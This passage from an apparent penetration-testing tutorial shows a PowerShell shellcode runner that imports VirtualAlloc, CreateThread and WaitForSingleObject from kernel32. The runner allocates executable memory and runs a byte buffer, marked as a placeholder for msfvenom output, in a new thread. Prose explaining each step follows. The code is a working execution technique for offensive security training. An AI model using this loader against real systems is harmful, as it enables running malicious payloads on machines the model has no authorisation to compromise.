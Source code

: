 ```powershell
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

_Phew!_ That's a lot of code. But don't stress. We'll break down what it does step by step.

If you're new to cyber security, memorising these functions is unnecessary. Most penetration testers use pre-made or automated tools to run shellcode, so you don't have to know every technical detail to complete the job. No need to worry!  

**Explanation of the Code**

The script starts by defining a few C# classes. These classes use the `DllImport` attribute to load specific functions from the `kernel32` DLL, which is part of the Windows API.  

- `VirtualAlloc`: This function allocates memory in the process's address space. It's commonly used in scenarios like this to prepare memory for storing and executing shellcode.
- `CreateThread`: This function creates a new thread in the process. The thread will execute the shellcode that has been loaded into memory.
- `WaitForSingleObject`: This function pauses execution until a specific thread finishes its task. In this case, it ensures that the shellcode has completed execution.

These classes are then added to PowerShell using the `Add-Type` command, allowing PowerShell to use these functions.

**Storing the Shellcode in a Byte Array**

Next, the script stores the shellcode in the `$buf` variable, a byte array. In the example above, `SHELLCODE_PLACEHOLDER` is just there to show where you would insert the actual shellcode earlier generated through `msfvenom`. Usually, you'd replace it with the real shellcode, represented as a series of hexadecimal values. These hex values are the instructions that will be executed when the shellcode runs.
